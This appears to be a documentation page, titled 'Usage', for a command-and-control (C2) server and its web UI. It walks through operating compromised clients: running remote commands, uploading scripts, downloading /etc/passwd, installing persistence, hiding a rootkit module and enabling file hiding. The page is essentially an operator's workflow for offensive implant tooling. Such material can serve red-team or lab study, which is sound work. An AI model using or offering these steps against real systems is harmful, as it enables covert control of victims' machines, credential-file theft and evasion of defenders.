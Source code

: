 ```yaml
---
title: "Usage"
description: "How to use the C2 server"
icon: "play_arrow"
weight: 304
---
```


## Start Server

```bash
./deploy_c2.sh --c2        # Start C2 server + Web UI
```

## Basic Workflow

```bash
# 1. List clients
clients
# Index | Client Name | Status         | Last Seen
#   1   | Client-1    | UNAUTHENTICATED| 6:13:29 PM

# 2. Authenticate  
auth 1 password
# ✓ Authentication successful

# 3. Execute commands
exec 1 whoami
exec 1 uname -a
exec 1 ps aux

# 4. Transfer files
upload 1 script.sh          # Upload to client
download 1 /etc/passwd      # Download from client

# 5. Configure
config 1                    # Interactive menu
persist install 1           # Install persistence
```

## File Operations

```bash
ls 1 /home                  # List directory
upload 1 ./file.txt         # Upload (to current dir)
upload 1 ./file.txt /tmp/   # Upload to specific path
download 1 /etc/hosts       # Downloads to downloads/ folder
```

## Stealth

```bash
status 1                    # Check current stealth status
hide 1                      # Hide rootkit module
enable-file-hiding 1        # Enable file hiding
```

**Access Web UI**: `http://localhost:3000` 